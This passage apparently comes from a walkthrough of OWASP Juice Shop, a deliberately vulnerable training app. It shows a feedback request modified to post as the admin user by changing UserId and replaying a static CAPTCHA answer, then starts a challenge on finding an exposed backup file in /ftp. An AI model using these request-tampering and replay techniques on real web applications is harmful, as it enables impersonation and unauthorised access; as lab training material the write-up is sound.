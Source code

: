 ```
POST /api/Feedbacks/ HTTP/1.1
[...]

{"UserId":9,"comment":"this is totally me!","rating":5,"captcha":"28","captchaId":6}
```

From previous tinkering, the CAPTCHA system appears to be a static bank of challenges and their solutions so I suspect we can just replay this request. Modify the `UserId` to 1 to post as the admin.

```
POST /api/Feedbacks/ HTTP/1.1
[...]

{"UserId":1,"comment":"this is totally me!","rating":5,"captcha":"28","captchaId":6}
```

That's it.

![feedback](/img/owasp-juice-shop-v7.3.0/juice044.png)

For fun and further verification that it worked, we can view the feedback on the `/#/administration` page.

![feedback](/img/owasp-juice-shop-v7.3.0/juice045.png)

# Forgotten Sales Backup

> Access a salesman's forgotten backup file.

Back to our old friend, the `/ftp` directory. 'coupons_2013.md.bak' sounds like what we're looking for.

![feedback](/img/owasp-juice-shop-v7.3.0/juice046.png)
